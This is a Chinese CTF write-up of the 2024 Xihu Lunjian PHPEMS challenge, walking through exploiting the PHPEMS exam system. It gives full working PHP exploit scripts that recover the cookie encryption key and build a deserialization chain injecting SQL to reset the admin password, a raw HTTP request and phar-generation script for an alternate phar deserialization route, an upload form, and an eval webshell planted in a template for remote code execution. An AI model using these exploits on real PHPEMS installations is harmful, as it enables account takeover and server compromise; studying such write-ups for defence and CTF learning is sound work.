



# 2024 西湖论剑 - 数据安全-PHPEMS - 先知社区

2024 西湖论剑 - 数据安全-PHPEMS

- - -

## 反序列化 1-unserialize

先定位 unserialize  
位于 lib/strings.cls.php 中的 decode  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384087-2d520df4-82e8-4ba1-a81a-340da323c6d6.png#averageHue=%232a2d31&id=cyNF7&originHeight=448&originWidth=848&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
能在 lib/session.cls.php 中找到他的调用 这个 session 类是专门处理 cookie 的  
他每次在实例化的时候都会运行到 getSessionId  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384198-ebae37d5-c396-462f-b585-7be902efae5a.png#averageHue=%231f2125&id=DhauN&originHeight=276&originWidth=679&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
从 getSessionId 在进入 decode，从而触发反序列化  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384288-ae541088-bcae-4fb6-95ad-9ada807f74bd.png#averageHue=%231f2125&id=SWsK2&originHeight=307&originWidth=1036&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
根据上面的 decode 方法我们可以知道  
他在处理反序列化数据时，进行了一点简单的字符串变换  
这点我们可以在 strings.cls.php 的 encode 中发现  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384373-2072ef5f-4742-4186-80ab-0294d5928363.png#averageHue=%232b2d31&id=U6uEj&originHeight=400&originWidth=758&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
但其中的$key 也是就 CS 我们是不知道的  
在 config.cls.php 中为一个随机字符串

[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384459-109a581a-a60d-4c73-b961-b41376c61b56.png#averageHue=%231f2125&id=LbQQP&originHeight=400&originWidth=899&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
题目环境也不是这个，所以我们暂时是无法构造的  
但是我们可以在本地环境进行测试  
以下便是服务器提供给我们的 encode\_strings  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384542-8f8fd853-57b3-475f-9c34-2f695b90b90f.png#averageHue=%23f6f2f1&id=FDPbc&originHeight=588&originWidth=1357&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
在本地我们已知 key  
进行解密  
红色箭头部分则为解密后的序列化数据  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384626-53c884d7-0b1c-49ad-8634-308b939fce19.png#averageHue=%231f2124&id=GRIbY&originHeight=281&originWidth=1352&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
此是我们在来看看 encode 和 decode 规则  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384716-87023fee-e144-4b33-8463-bdb87868a464.png#averageHue=%232a2d31&id=qBvmV&originHeight=432&originWidth=1436&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
关键在与 for 循环  
encode 是将明文+key 得到密文  
decode 是将密文-key 得到明文  
所以 key 就是等于密文 - 明文  
接下来就是要解决  
如何得到目标服务器的明文这一问题了  
我们在回头看我们的序列化数据

[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384798-79ae11d1-2352-4c43-9e4c-1dddfd9d5be1.png#averageHue=%23a2b6b3&id=Y8kiN&originHeight=243&originWidth=1517&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
每次访问都会给我们发送一个 session 来标记我们的浏览器，其中分为 sessionid、sessionip、sessiontimelimit(此部分为时间戳)  
其中 sessionid 是一串 md5 生成位置如下，这要预测它就有点困难了  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384881-7939cc73-5342-47a5-8248-d2e5552da798.png#averageHue=%231f2126&id=b3eS7&originHeight=269&originWidth=1275&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
但是且看 sessionip => $this->ev->getClientIp()  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384961-c39f8012-0c50-4690-a0cc-e40ef71c1fb5.png#averageHue=%231f2125&id=P6P5a&originHeight=207&originWidth=1161&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
可以看到此处的 getclientip 我们可以通过各种 header 去控制  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385045-d5816ef3-0e33-47c2-b18d-1751536eac78.png#averageHue=%232b2d31&id=oT7n5&originHeight=484&originWidth=1479&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
比如 XFF、client-ip 等  
在回头看 for 循环中的$p  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869384716-87023fee-e144-4b33-8463-bdb87868a464.png#averageHue=%232a2d31&id=bFJqv&originHeight=432&originWidth=1436&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
他是从 0-31 为一个循环来控制**$key** 和 密文与明文之间的变换这相当于里面的一个小循环来控制 **$p**  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385150-6b3ddcbf-ed34-4b9a-9e47-6fbdc4cb4388.png#averageHue=%231e1f22&id=flMdC&originHeight=531&originWidth=485&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
于是我们只要找到一个从 0 开始的到 31 结束的一个小循环，就可以反推出$key 了  
在结合之前发现的 sessionIP 我们可以控制，sessiontimelimit 是时间戳虽然说也能行，但是容易不准  
利用 substr 截取

```plain
substr($info,64,32)
//即可提取出共同拥有部分
// :"sessionip";s:9:"127.0.0.1";s:1
```

那么接下来就可以写还原 key 的脚本了

```plain
<?php
$info = "%2595%259Cfs%25AF%25D9lon%2586%25D9%25C8%25D7%25D6%25A0%25A1%25A2%25CA%2594X%259D%25AC%259Ccg%259DS%2596i%259B%259B%25C7%2599%2598kp%2595%259Eg%2598%2598%25C7%25CA%259B%259A%2594lid%2593%2592%259B%2594i%25C3fh%2598c%2587p%25AC%259F%259Dn%2584%25A6%259E%25A7%25D9%259B%25A5%25A2%25CD%25D6%2585%259F%25D6qkn%2583ah%2599g%2592%255Ee%2591b%2587p%25AC%259F%2595j%259CU%25AC%2599%25D9%25A5%259F%25A3%25D2%25DA%25CC%25D1%25C8%25A3%259B%25A1%25CA%25A4X%259D%25A2%259Cal%2593g%259Bhk%2595%259Bm%259D%25B0";    //此段直接从目标服务器获取
$info = urldecode($info);  
$info = urldecode($info);  
$info = substr($info,64,32);   //此处提取预测的密文部分
function reverse($payload1,$payload2)  
{  
    $il = strlen($payload1);  
    $key= "";  
    $kl = 32;  
    for($i = 0; $i < $il; $i++)  
    {  
        $p = $i%$kl;  
        $key .= chr(ord($payload1[$i])-ord($payload2[$p]));  
    }  
    return $key;  
}  

echo reverse($info,':"sessionip";s:9:"127.0.0.1";s:1'); // sessionip";s:9:"127.0.0.1";s:1 为我们预测的明文部分
?>
```

输出结果为：**4b394f264dfcdc724a06b9b05c1e59ed**  
那么现在就写反序列化链子了  
题目给的源码中有几个点可以触发注入，但是能用的只有一个点，因为其他的 php 类没有被加载 (**或许可以在其他的路由下找到已经初始化好的，这里没去尝试**)，导致在反序列化时找不到对象，反序列化失败  
调用流程如下

```plain
session::__destruct()->pdosql::makeUpdate->pepdo::exec 中触发数据库查询
```

[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385256-8eb3ec37-04b1-4405-b556-f885446b563c.png#averageHue=%232a2d31&id=UxL6y&originHeight=402&originWidth=638&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
完整的 exp 如下

```plain
<?php  
namespace PHPEMS{  
    class session{  
    public function __construct()  
    {  
        $this->sessionid="1111111";  
        $this->pdosql= new pdosql();  
        $this->db= new pepdo();  
        }  
    }  
    class pdosql  
    {  
        private $db ;  
        public function __construct()  
        {  
            $this->tablepre = 'x2_user set userpassword="e10adc3949ba59abbe56e057f20f883e" where username="peadmin";#--';  
            $this->db=new pepdo();  
        }  
    }  
    class pepdo  
    {  
        private $linkid = 0;  
    }  
}  

namespace {  
    $info = "%2595%259Cfs%25AF%25D9lon%2586%25D9%25C8%25D7%25D6%25A0%25A1%25A2%25CA%2594X%259D%25AC%259Ccg%259DS%2596i%259B%259B%25C7%2599%2598kp%2595%259Eg%2598%2598%25C7%25CA%259B%259A%2594lid%2593%2592%259B%2594i%25C3fh%2598c%2587p%25AC%259F%259Dn%2584%25A6%259E%25A7%25D9%259B%25A5%25A2%25CD%25D6%2585%259F%25D6qkn%2583ah%2599g%2592%255Ee%2591b%2587p%25AC%259F%2595j%259CU%25AC%2599%25D9%25A5%259F%25A3%25D2%25DA%25CC%25D1%25C8%25A3%259B%25A1%25CA%25A4X%259D%25A2%259Cal%2593g%259Bhk%2595%259Bm%259D%25B0"; // 远程环境
    $info = "%2592%25A2%25A4%25A0%25F3%25A9%25AE%25A2%259D%2599%25C5%25DD%25E7%25D9%25DF%25D8%25C2%25D9%259DVk%25E9%25A8%259AS%25B3e%258F%258A%25AE%25BFii%2599%25D4%259C%25DAl%25A5%259A%2599%25A8%25B8%25AD%25DA%259E%25A7%2599%2584%25D6%259E%2595d%25DB%25A1%25CBU%25ABt%2580%258C%25BE%2598ok%258A%25E4%25CB%25EB%25A9%25DD%25D8%25D1%25E0%25C2%259A%25AF%25D9%25B0%25A2%258E%2592jfg%25A4%259E%2595Q%25A7t%2580%258C%25BE%2598gg%25A2%2593%25D9%25DD%25A9%25E7%25D2%25D2%25E5%25C6%25E1%25E1%25CB%25E2%25D2%25C1%25D9%25ADVk%25DF%25A8%2598X%25A9y%2594%2589%257D%2594ia%25A3%25EE";   //本地环境
    $info = urldecode($info);  
    $info = urldecode($info);  
    $info = substr($info,64,32);  
    function reverse($payload1,$payload2)  
    {  
        $il = strlen($payload1);  
        $key= "";  
        $kl = 32;  
        for($i = 0; $i < $il; $i++)  
        {  
            $p = $i%$kl;  
            $key .= chr(ord($payload1[$i])-ord($payload2[$p]));  
        }  
        return $key;  
    }  

    define(CS1,reverse($info, ':"sessionip";s:9:"127.0.0.1";s:1'));  
    echo CS1;  
    function encode($info)  
    {  
        $info = serialize($info);  
        $key = CS1;  
        $kl = strlen($key);  
        $il = strlen($info);  
        for($i = 0; $i < $il; $i++)  
        {  
            $p = $i%$kl;  
            $info[$i] = chr(ord($info[$i])+ord($key[$p]));  
        }  
        return urlencode($info);  
    }  
    $session = new \PHPEMS\session();  
    $array = array("sessionid"=>"123123123", $session);  
    echo serialize($array)."\n";  
    echo(urlencode(encode($array)))."\n";  
}
```

exec 中 虽然说用到了预处理，但是是 prepare 部分我们仍可以控制，那么这个预处理即使在这里那也是无效的，并不能防止注入  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385352-07c2fd14-5b8a-4df5-8945-1677b40b7520.png#averageHue=%232b2d32&id=lEUR8&originHeight=387&originWidth=783&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
使用上面的 exp 我们就能把后台密码修改为 123456，进入后台就能 RCE，这个我们下面在写

## 反序列化 2-phar(非预期)

phar 触发点在 app/weixin/controller/index.api.php 中的 file\_getcontents，其中$picurl 从 xml 数据中获取  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385442-8186eae6-49b6-444b-8cdb-afc6a29f7436.png#averageHue=%232a2d31&id=l3LO0&originHeight=368&originWidth=970&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
其触发 payload 为

```plain
GET /index.php?weixin-api HTTP/1.1
Host: phpems.cn
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
DNT: 1
Accept: */*
Referer: http://phpems.cn/
Accept-Encoding: gzip, deflate, br
Cookie: exam_currentuser=
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,vi;q=0.7
Connection: close
Content-Length: 179


<xml><ToUserName>123</ToUserName><FromUserName>123</FromUserName><MsgType>image</MsgType><Content>123123</Content><PicUrl>phar:///filepath</PicUrl><FuncFlag>qwe</FuncFlag></xml>
```

[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385545-5167adfd-6f8a-4a20-9595-ef813fa2ed96.png#averageHue=%23fbf9f9&id=aFAYo&originHeight=661&originWidth=1380&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
紧接着就是找上传点了，  
上传点位于 app/document/controller/fineuploader.api.php 需要注册用户，并登录

[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385636-b9027ce9-8c61-4c15-a6d8-c077fe2b87f9.png#averageHue=%23f7f1f1&id=PusDc&originHeight=724&originWidth=1598&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
upload.html 如下

```plain
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://exam.cyan.wetolink.com/index.php?document-api-fineuploader" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="qqfile" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

phar 生成脚本如下，上传生成的**111.gif**即可

```plain
<?php  
namespace PHPEMS{  
    class session{  
        public function __construct()  
        {  
            $this->sessionid="1111111";  
            $this->pdosql= new pdosql();  
            $this->db= new pepdo();  
        }  
    }  
    class pdosql  
    {  
        private $db ;  
        public function __construct()  
        {  
            $this->tablepre = 'x2_user set userpassword="e10adc3949ba59abbe56e057f20f883e" where username="peadmin";#--';  
            $this->db=new pepdo();  
        }  
    }  
    class pepdo  
    {  
        private $linkid = 0;  
    }  
}  
namespace {  
    $o = new \PHPEMS\session();  
    $filename = '111.phar';// 后缀必须为 phar，否则程序无法运行  
    file_exists($filename) ? unlink($filename) : null;  
    $phar=new Phar($filename);  
    $phar->startBuffering();  
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");  
    $phar->setMetadata($o);  
    $phar->addFromString("foo.txt","bar");  
    $phar->stopBuffering();  
    system('copy 111.phar 111.gif');  
}  

?>
```

## 后台 RCE

内容标签编辑处 getshell  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385723-1fbb4f3d-fb44-48ef-be16-65267530e3fd.png#averageHue=%23afc5ac&id=V9aZ1&originHeight=607&originWidth=1849&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
在此处写入一句话  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385804-519ac44c-62fb-4fa1-af2e-bee5aac4d398.png#averageHue=%23282922&id=g0IRj&originHeight=647&originWidth=1661&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```plain
<?php namespace t;@eval($_POST[1]);?>
```

会序列化存储到数据库中  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385897-1b907814-8ff9-4f35-ba6b-f54f53b50ac2.png#id=KAkD1&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在获取模板模式的数据的过程中，blockcontent 会被反序列化并将内容赋值给 app/content/cls/api.cls.php中的$tp 最后在进入 eval 执行了代码  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869386057-9609dc17-27ba-4656-a98c-2736cdab274c.png#id=WTHkf&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
其调用位置为用户注册模板处这个 id 为 1 的地方  
其网站访问位置为 **/index.php?user-app-register**  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869386239-f8615972-c07c-4581-8e8b-39569fe5e96a.png#id=mXZeO&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
最后使用 Antsword 连接即可  
[](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869386325-644e3919-f268-4420-bdc5-f511bd72389c.png#id=ypdS8&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
